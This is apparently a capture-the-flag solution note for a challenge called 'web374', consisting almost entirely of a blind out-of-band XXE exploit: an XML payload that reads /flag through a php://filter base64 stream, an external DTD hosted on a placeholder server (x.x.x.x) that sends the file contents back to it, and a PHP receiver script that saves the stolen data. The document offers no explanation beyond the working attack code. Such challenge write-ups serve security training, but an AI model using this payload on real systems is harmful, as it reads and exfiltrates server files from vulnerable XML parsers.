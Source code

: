 # web374
![](vx_images/328627329337393.png)
![](vx_images/55454285530851.png)

```
<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE root [
        <!ELEMENT root ANY >
        <!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=/flag">
        <!ENTITY % dtd SYSTEM "http://x.x.x.x/test.dtd">
        %dtd;
        %send;
        ]>
<root></root>

//test.dtd:
<!ENTITY % all
    "<!ENTITY &#x25; send SYSTEM 'http://x.x.x.x/getxxe.php?file=%file;'>"
>
%all;

//getxxe.php:
<?php
$file=$_GET['file'];
$set=fopen("xxe.txt","w+");
fwrite($set,$file);
fclose($set);
```
![](vx_images/176557108766887.png)